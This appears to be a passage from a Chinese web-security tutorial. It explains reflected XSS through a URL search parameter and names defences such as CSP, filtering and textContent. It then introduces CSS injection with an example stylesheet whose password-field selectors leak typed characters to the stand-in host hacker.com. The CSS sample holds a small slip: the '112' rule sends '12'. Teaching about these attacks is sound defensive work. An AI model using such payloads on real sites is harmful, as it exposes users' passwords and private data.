 

## 扩展：使用 URL 的攻击方式

这种攻击方式被称为 “反射式 XSS”。考虑以下场景：
某个搜索引擎网站，其搜索参数为 `?search=<搜索词>`，提交后搜索详情页有一处 DOM 会展示：`"当前搜索内容为：<搜索词>"`，这里的搜索词源自从 URL 中解析出的搜索词。这样类似的场景还有很多，不局限于搜索引擎类的站点。

![](../images/image-20240622010923502.png)

这样的页面设计，如果没有安全方面的意识，就会给恶意用户可乘之机。

如果页面上显示的搜索词直接来自服务端渲染，黑客则可以构建非法 URL；
例如：构造一个地址 `?search=%3Cscript%3E%3C%2Fscript%3E`，解析 URL 参数会得到 `"<script></script>"`，然后被服务器直接放入 HTML 中展现给浏览者，这个网页就具备了执行恶意代码的能力。
黑客在这对 `<script>` 标签中添加一些 JS 代码，并把这个 URL 发给其他用户，或伪造成超链接，骗取其他用户点击，这便会导致用户的隐私泄露。

这种反射型 XSS，防御起来也不难，除了使用上面的 CSP、安全过滤等方式来防御之外，还可以使用 `innerText`、`textContent` 的前端实现方式来展示这些内容。



## 扩展：CSS 也能注入攻击

有些网站允许用户自定义主题，用户可以插入自己的 CSS，实际上，CSS 也可以实现注入攻击，甚至比 XSS 更难防御。

例如，某类似 QQ 空间的网站为了支持自定义主题，允许用户上传 CSS，于是某恶意用户上传如下 CSS：

```css
input[value^='1'][type='password'] {
  background-image: url('https://hacker.com/?input=1');
}
input[value^='2'][type='password'] {
  background-image: url('https://hacker.com/?input=2');
}
/* ...各种字符组合 */
input[value^='11'][type='password'] {
  background-image: url('https://hacker.com/?input=11');
}
/* ...各种字符组合 */
input[value^='112'][type='password'] {
  background-image: url('https://hacker.com/?input=12');
}
/* ...各种字符组合 */
```
